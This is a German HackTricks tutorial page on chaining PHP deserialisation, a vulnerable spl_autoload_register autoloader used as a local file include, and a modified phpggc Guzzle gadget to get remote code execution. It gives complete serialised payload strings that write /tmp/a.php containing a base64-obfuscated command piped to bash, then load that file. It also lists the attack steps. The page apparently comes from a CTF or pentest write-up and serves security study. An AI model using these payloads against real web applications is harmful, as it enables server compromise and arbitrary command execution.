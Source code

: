# PHP - Deserialisierung + Autoload-Klassen

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

Zuerst solltest du überprüfen, was [**Autoloading-Klassen**](https://www.php.net/manual/en/language.oop5.autoload.php) sind.

## PHP Deserialisierung + spl\_autoload\_register + LFI/Gadget

Wir befinden uns in einer Situation, in der wir eine **PHP-Deserialisierung in einer Webanwendung** gefunden haben, ohne dass eine Bibliothek anfällig für Gadgets innerhalb von **`phpggc`** ist. In demselben Container gab es jedoch eine **andere Composer-Webanwendung mit anfälligen Bibliotheken**. Daher war das Ziel, den **Composer-Loader der anderen Webanwendung zu laden** und ihn auszunutzen, um **ein Gadget zu laden, das diese Bibliothek mit einem Gadget** aus der Webanwendung, die anfällig für Deserialisierung ist, auszunutzen.

Schritte:

* Du hast eine **Deserialisierung** gefunden und es **gibt kein Gadget** im aktuellen Anwendungs-Code
* Du kannst eine **`spl_autoload_register`**-Funktion wie die folgende ausnutzen, um **jede lokale Datei mit der `.php`-Erweiterung zu laden**
* Dafür verwendest du eine Deserialisierung, bei der der Name der Klasse in **`$name`** enthalten sein wird. Du **kannst "/" oder "."** in einem Klassennamen in einem serialisierten Objekt nicht verwenden, aber der **Code** ersetzt die **Unterstriche** ("\_") **durch Schrägstriche** ("/"). Ein Klassenname wie `tmp_passwd` wird also in `/tmp/passwd.php` umgewandelt und der Code wird versuchen, ihn zu laden.\
Ein **Gadget-Beispiel** wäre: **`O:10:"tmp_passwd":0:{}`**
```php
spl_autoload_register(function ($name) {

if (preg_match('/Controller$/', $name)) {
$name = "controllers/${name}";
} elseif (preg_match('/Model$/', $name)) {
$name = "models/${name}";
} elseif (preg_match('/_/', $name)) {
$name = preg_replace('/_/', '/', $name);
}

$filename = "/${name}.php";

if (file_exists($filename)) {
require $filename;
}
elseif (file_exists(__DIR__ . $filename)) {
require __DIR__ . $filename;
}
});
```
{% hint style="success" %}
Wenn Sie einen **Datei-Upload** haben und eine Datei mit der **`.php`-Erweiterung** hochladen können, könnten Sie diese Funktionalität direkt **ausnutzen** und bereits RCE erhalten.
{% endhint %}

In meinem Fall hatte ich nichts dergleichen, aber es gab im **gleichen Container** eine andere Composer-Webseite mit einer **Bibliothek, die anfällig für ein `phpggc`-Gadget ist**.

* Um diese andere Bibliothek zu laden, müssen Sie zuerst den **Composer-Loader dieser anderen Webanwendung laden** (da der der aktuellen Anwendung nicht auf die Bibliotheken der anderen zugreifen kann). **Wenn Sie den Pfad der Anwendung kennen**, können Sie dies sehr einfach erreichen mit: **`O:28:"www_frontend_vendor_autoload":0:{}`** (In meinem Fall war der Composer-Loader in `/www/frontend/vendor/autoload.php`)
* Jetzt können Sie den **Composer-Loader der anderen App laden**, also ist es Zeit, die **`phpgcc`** **Payload** zu generieren, die Sie verwenden möchten. In meinem Fall verwendete ich **`Guzzle/FW1`**, das es mir ermöglichte, **jede Datei im Dateisystem zu schreiben**.
* HINWEIS: Das **generierte Gadget funktionierte nicht**, damit es funktioniert, **modifizierte** ich diese Payload **`chain.php`** von phpggc und stellte **alle Attribute** der Klassen **von privat auf öffentlich** ein. Andernfalls hatten die Attribute der erstellten Objekte nach der Deserialisierung des Strings keine Werte.
* Jetzt haben wir die Möglichkeit, den **Composer-Loader der anderen App zu laden** und eine **funktionierende phpggc-Payload** zu haben, aber wir müssen dies **IM GLEICHEN ANFRAGE tun, damit der Loader geladen wird, wenn das Gadget verwendet wird**. Dazu sendete ich ein serialisiertes Array mit beiden Objekten wie:
* Sie können **zuerst sehen, wie der Loader geladen wird und dann die Payload**.

{% code overflow="wrap" %}
```php
a:2:{s:5:"Extra";O:28:"www_frontend_vendor_autoload":0:{}s:6:"Extra2";O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:7:"cookies";a:1:{i:0;O:27:"GuzzleHttp\Cookie\SetCookie":1:{s:4:"data";a:3:{s:7:"Expires";i:1;s:7:"Discard";b:0;s:5:"Value";s:56:"<?php system('echo L3JlYWRmbGFn | base64 -d | bash'); ?>";}}}s:10:"strictMode";N;s:8:"filename";s:10:"/tmp/a.php";s:19:"storeSessionCookies";b:1;}}
```
{% endcode %}

* Jetzt können wir **eine Datei erstellen und schreiben**, jedoch **konnte der Benutzer in keinen Ordner auf dem Webserver schreiben**. Wie Sie im Payload sehen können, wird PHP **`system`** mit einem **base64** in **`/tmp/a.php`** aufgerufen. Dann können wir **den ersten Typ von Payload wiederverwenden**, den wir als LFI verwendet haben, um den Composer-Loader der anderen Webanwendung **zu laden, um die generierte `/tmp/a.php`** Datei zu laden. Fügen Sie es einfach dem Deserialisierungs-Gadget hinzu:&#x20;

{% code overflow="wrap" %}
```php
a:3:{s:5:"Extra";O:28:"www_frontend_vendor_autoload":0:{}s:6:"Extra2";O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:7:"cookies";a:1:{i:0;O:27:"GuzzleHttp\Cookie\SetCookie":1:{s:4:"data";a:3:{s:7:"Expires";i:1;s:7:"Discard";b:0;s:5:"Value";s:56:"<?php system('echo L3JlYWRmbGFn | base64 -d | bash'); ?>";}}}s:10:"strictMode";N;s:8:"filename";s:10:"/tmp/a.php";s:19:"storeSessionCookies";b:1;}s:6:"Extra3";O:5:"tmp_a":0:{}}
```
{% endcode %}

**Zusammenfassung des Payloads**

* **Lade das Composer-Autoload** einer anderen Webanwendung im selben Container
* **Lade ein phpggc-Gadget**, um eine Bibliothek der anderen Webanwendung auszunutzen (die ursprüngliche Webanwendung, die anfällig für Deserialisierung war, hatte keine Gadgets in ihren Bibliotheken)
* Das Gadget wird **eine Datei mit einem PHP-Payload** in /tmp/a.php mit bösartigen Befehlen erstellen (der Webanwendungsbenutzer kann in keinem Ordner einer Webanwendung schreiben)
* Der letzte Teil unseres Payloads wird **die generierte PHP-Datei laden**, die Befehle ausführt

Ich musste diese Deserialisierung **zweimal aufrufen**. In meinen Tests wurde beim ersten Mal die Datei `/tmp/a.php` erstellt, aber nicht geladen, und beim zweiten Mal wurde sie korrekt geladen.

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}
